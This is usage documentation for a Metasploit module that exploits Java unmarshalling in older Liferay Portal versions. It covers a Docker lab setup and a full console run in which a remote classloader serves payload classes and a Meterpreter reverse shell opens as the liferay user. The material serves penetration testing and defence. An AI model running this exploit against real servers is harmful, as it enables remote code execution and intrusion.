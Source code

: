 ## Vulnerable Application

### Description

This module exploits a Java unmarshalling vulnerability via JSONWS in
Liferay Portal versions < 6.2.5 GA6, 7.0.6 GA7, 7.1.3 GA4, and 7.2.1 GA2
to execute code as the Liferay user. Tested against 7.2.0 GA1.

### Setup

Install Docker using the [official instructions](https://docs.docker.com/get-docker/).
Follow the instructions for your platform and distribution (if using
Linux). If you're using OS X, you may prefer to `brew cask install docker`
after installing [Homebrew](https://brew.sh/).

**Note:** You may want to increase Docker's memory capacity up to 4 GB.
Liferay will crash at 2 GB or less. 4 GB seems to be the sweet spot.

Run `docker run -it -p 8080:8080 liferay/portal:7.2.0-ga1` (note the
added `7.2.0-ga1` tag) as per Liferay's [Docker Hub instructions](https://hub.docker.com/r/liferay/portal).
Any dependencies will be pulled automatically.

### Targets

```
Id  Name
--  ----
0   Liferay Portal < 6.2.5 GA6, 7.0.6 GA7, 7.1.3 GA4, 7.2.1 GA2
```

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Options

### SRVPORT

If you are testing the [Docker container](#setup), which binds to port
8080 by default, set this to a different port to avoid a port conflict
with the remote classloading server.

## Scenarios

### Liferay Portal 7.2.0 GA1 from [Docker Hub](https://hub.docker.com/r/liferay/portal)

```
msf5 > use exploit/multi/http/liferay_java_unmarshalling
msf5 exploit(multi/http/liferay_java_unmarshalling) > show missing

Module options (exploit/multi/http/liferay_java_unmarshalling):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'


Payload options (java/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)

msf5 exploit(multi/http/liferay_java_unmarshalling) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf5 exploit(multi/http/liferay_java_unmarshalling) > set lhost 192.168.1.3
lhost => 192.168.1.3
msf5 exploit(multi/http/liferay_java_unmarshalling) > set srvport 8888
srvport => 8888
msf5 exploit(multi/http/liferay_java_unmarshalling) > run

[*] Started reverse TCP handler on 192.168.1.3:4444
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable. Liferay 7.2.0 CE GA1 MAY be a vulnerable version. Please verify.
[*] Using URL: http://0.0.0.0:8888/
[*] Local IP: http://192.168.1.3:8888/
[+] Started remote classloader server at http://192.168.1.3:8888/
[*] Unmarshalling remote classloader at http://127.0.0.1:8080/api/jsonws/expandocolumn/update-column
[*] GET /Uphxohekruuokpedknflsriuafhrdsfk.class requested
[+] Sending constructor class
[*] GET /metasploit/Payload.class requested
[+] Sending payload class
[*] HEAD /metasploit.dat requested
[+] Sending 200
[*] GET /metasploit.dat requested
[+] Sending payload config
[*] HEAD /metasploit/Payload.class requested
[+] Sending 200
[*] GET /metasploit/Payload.class requested
[+] Sending payload class
[*] Sending stage (53928 bytes) to 192.168.1.3
[*] Meterpreter session 1 opened (192.168.1.3:4444 -> 192.168.1.3:58271) at 2020-04-08 07:05:47 -0500
[*] Server stopped.

meterpreter > getuid
Server username: liferay
meterpreter > sysinfo
Computer    : 588a96d744cb
OS          : Linux 4.19.76-linuxkit (amd64)
Meterpreter : java/linux
meterpreter >
```
